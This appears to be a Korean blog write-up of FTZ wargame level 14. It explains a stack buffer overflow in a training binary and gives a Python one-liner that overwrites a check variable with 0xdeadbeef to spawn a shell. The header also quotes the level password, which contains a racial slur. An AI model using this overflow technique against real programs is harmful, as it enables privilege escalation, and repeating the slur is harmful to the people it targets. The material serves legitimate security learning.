 ```yaml
---

title:  "[FTZ] level 14"

categories: ftz

tags: [ftz]

toc: true

toc_sticky: true

date: 2021-12-18 17:39:31

---
```


# level 14

**level14 / what that nigga want?**

힌트

![image](https://user-images.githubusercontent.com/69203345/146631165-0286625e-073d-46f0-9a9b-863146d593bb.png)

버퍼 오버플로우, 포맷스트링 학습에 도움이 된다고 적혀있다.

정수형 crap  
정수형 check  
buf에 20바이트 크기 할당  
fgets로 문자열을 받는데 45바이트 만큼만 받음  
check 가 0xdeadbeef일때 if 문 실행  
level15의 pid, /bin/bash 실행

/tmp로 복사해서 gdb분석

![image](https://user-images.githubusercontent.com/69203345/146633619-f6a0afc4-80fa-4851-8104-d240af4d14bb.png)

"그 시간"

0x080484a1 <main+17>    lea     eax,[ebp-56]

buf에서 ebp까지의 거리= 56

0x080484ad <main+29>    cmp     DWORD PTR [ebp-16],0xdeadbeef

check 에서 ebp 까지의 거리 16

낮은주소

buf[20] [ebp-56]  
dummy[20]  
check[4] [ebp-16]  
crap[4]+dummy[8]   
sfp[4]  
ret[4]

높은주소

페이로드  
buf~check 까지의 거리 + 변조할값
> (python -c 'print "A"*40+"\xef\xbe\xad\xde"'; cat) | ./attackme

![image](https://user-images.githubusercontent.com/69203345/146635091-6ad8ad0c-2996-4833-809b-bafeee270d13.png)